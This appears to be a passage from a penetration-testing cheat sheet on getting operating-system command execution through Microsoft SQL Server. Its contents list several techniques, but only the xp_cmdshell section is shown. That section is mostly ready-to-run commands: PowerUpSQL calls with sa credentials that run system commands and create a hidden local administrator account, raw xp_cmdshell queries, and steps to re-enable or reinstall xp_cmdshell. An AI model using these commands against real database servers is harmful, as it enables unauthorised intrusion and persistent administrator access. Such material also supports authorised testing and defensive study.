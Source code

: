 # MSSQL - Command Execution

## Summary

- [Command Execution via xp_cmdshell](#command-execution-via-xp_cmdshell)
- [Extended Stored Procedure](#extended-stored-procedure)
    - [Add the extended stored procedure and list extended stored procedures](#add-the-extended-stored-procedure-and-list-extended-stored-procedures)
- [CLR Assemblies](#clr-assemblies)
    - [Execute commands using CLR assembly](#execute-commands-using-clr-assembly)
    - [Manually creating a CLR DLL and importing it](#manually-creating-a-clr-dll-and-importing-it)
- [OLE Automation](#ole-automation)
    - [Execute commands using OLE automation procedures](#execute-commands-using-ole-automation-procedures)
- [Agent Jobs](#agent-jobs)
    - [Execute commands through SQL Agent Job service](#execute-commands-through-sql-agent-job-service)
    - [List All Jobs](#list-all-jobs)
- [External Scripts](#external-scripts)
    - [Python](#python)
    - [R](#r)


## Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami

# Creates and adds local user backup to the local administrators group:
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add'" -Verbose
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

* Manually execute the SQL query
	```sql
	EXEC xp_cmdshell "net user";
	EXEC master..xp_cmdshell 'whoami'
	EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
	```
* If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)
	```sql
	EXEC sp_configure 'show advanced options',1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	```
* If the procedure was uninstalled
	```sql
	sp_addextendedproc 'xp_cmdshell','xplog70.dll'
	```
